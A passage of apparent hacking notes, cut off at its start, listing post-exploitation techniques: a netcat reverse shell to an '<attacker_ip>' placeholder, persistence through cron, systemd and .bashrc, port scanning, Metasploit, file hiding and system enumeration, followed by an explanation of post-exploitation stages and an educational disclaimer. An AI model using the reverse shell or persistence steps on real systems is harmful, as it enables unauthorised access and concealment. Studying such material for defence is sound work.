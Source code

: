 2. Rootkits:
   - Install a rootkit (for educational purposes only): This is not recommended as it is illegal and unethical.

3. Remote administration tools:
   - Establish a reverse shell connection: `nc -nv <attacker_ip> <port> -e /bin/bash`
   - Deploy a remote administration tool like Netcat: `nc -lvp <port>`

4. Persistence mechanisms:
   - Modify system services: `sudo systemctl edit <service_name>`
   - Add a cron job: `crontab -e`
   - Modify the system's .bashrc file: `vi ~/.bashrc`

5. Exploiting unpatched vulnerabilities:
   - Scan for open ports and services: `nmap -p- <IP_address>`
   - Exploit a known vulnerability using Metasploit framework: `msfconsole`

6. File hiding and obfuscation:
   - Hide a file or directory: `mv <file_or_directory> .<hidden_name>`
   - Compress and encrypt files: `tar -czvf <archive_name.tar.gz> <file_or_directory> | gpg -c > <encrypted_archive.tar.gz.gpg>`

7. Information gathering:
   - Enumerate system information: `uname -a; cat /etc/*-release`
   - View running processes: `ps aux`
   - Check network connections: `netstat -antp`

## Important to know

Post-exploitation in hacking refers to the actions taken by a hacker after successfully compromising a target system or network. It involves key stages such as enumeration, privilege escalation, lateral movement, persistence, data exfiltration, covering tracks, and maintaining access. These stages allow the hacker to gather detailed information, elevate privileges, explore other connected systems, establish long-term access, steal valuable data, remove or modify evidence, and monitor and control the compromised system for future attacks. Post-exploitation is crucial for achieving the hacker's objectives and maintaining control over the compromised systems.

It is important to note that maintaining unauthorized access to a system is illegal and strictly prohibited. This information is provided for educational purposes only to raise awareness about potential security vulnerabilities.
